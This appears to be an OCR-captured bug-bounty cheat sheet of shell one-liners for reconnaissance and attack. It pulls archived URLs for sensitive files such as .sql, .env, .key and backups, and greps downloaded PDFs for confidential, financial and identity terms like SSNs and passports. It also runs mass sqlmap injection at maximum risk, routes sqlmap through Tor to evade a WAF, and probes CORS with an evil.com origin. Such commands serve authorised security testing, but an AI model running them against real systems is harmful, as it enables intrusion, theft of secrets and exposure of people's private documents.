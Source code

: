 **Search for Sensitive files from Wayback**

`waybackurls domain.com| grep - -color -E "1.xls | \\. xml | \\.xlsx | \\.json | \\. pdf | \\.sql | \\. doc| \\.docx | \\. pptx| \\.txt| \\.zip| \\.tar.gz| \\.tgz| \\.bak| \\.7z| \\.rar"`

`cat hosts.txt | httpx -nc -t 300 -p 80,443,8080,8443 -silent -path "/s/123cfx/_/;/WEB-INF/classes/seraph-config.xml" -mc 200`

`curl 'https://web.archive.org/cdx/search/cdx?url=*.target.com/*&output=text&fl=original&collapse=urlkey' > output.txt`

`cat out.txt | uro | grep -E '\.xls|\.xml|\.xlsx|\.json|\.pdf|\.sql|\.doc|\.docx|\.pptx|\.txt|\.zip|\.tar\.gz|\.tgz|\.bak|\.7z|\.rar|\.log|\.cache|\.secret|\.db|\.backup|\.yml|\.gz|\.config|\.csv|\.yaml|\.md|\.md5|\.exe|\.dll|\.bin|\.ini|\.bat|\.sh|\.tar|\.deb|\.git|\.env|\.rpm|\.iso|\.img|\.apk|\.msi|\.dmg|\.tmp|\.crt|\.pem|\.key|\.pub|\.asc'`

`https://web.archive.org/cdx/search/cdx?url=*.example.com/*&collapse=urlkey&output=text&fl=original&filter=original:.*\.(xls|xml|xlsx|json|pdf|sql|doc|docx|pptx|txt|zip|tar\.gz|tgz|bak|7z|rar|log|cache|secret|db|backup|yml|gz|git|config|csv|yaml|md|md5|exe|dll|bin|ini|bat|sh|tar|deb|rpm|iso|img|apk|msi|env|dmg|tmp|crt|pem|key|pub|asc)$`

`curl "https://web.archive.org/cdx/search/cdx?url=*.example.com/*&collapse=urlkey&output=text&fl=original&filter=original:.*\.(xls|xml|xlsx|json|pdf|sql|doc|docx|pptx|txt|git|zip|tar\.gz|tgz|bak|7z|rar|log|cache|secret|db|backup|yml|gz|config|csv|yaml|md|md5|exe|dll|bin|ini|bat|sh|tar|deb|rpm|iso|img|env|apk|msi|dmg|tmp|crt|pem|key|pub|asc)$" | tee output.txt`

`cat output.txt | grep -Ea '\.pdf' | while read -r url; do curl -s "$url" | pdftotext - - | grep -Eaiq '(internal use only|confidential|strictly private|personal & confidential|private|restricted|internal|not for distribution|do not share|proprietary|trade secret|classified|sensitive|bank statement|invoice|salary|contract|agreement|non disclosure|passport|social security|ssn|date of birth|credit card|identity|id number|company confidential|staff only|management only|internal only)' && echo "$url"; done`

---

## 
<br/><br/>
## SQLi:

`cat subs.txt | httpx -silent | anew | waybackurls | gf sqli >> sqli ; sqlmap -m sqli -batch --random-agent --level 5 --risk 3`
<br/><br/>
***Bypass WAF using TOR***

`sqlmap -r request.txt --time-sec=10 --tor --tor-type=SOCKS5 --check-tor`

---

## 
<br/><br/>
## CORS:

`gau "http://target.com" | while read url;do target=$(curl -s -I -H "Origin: https://evil.com" -X GET $url) | if grep 'https://evil.com'; then [Potentional CORS Found]echo $url;else echo Nothing on "$url";fi;done`

---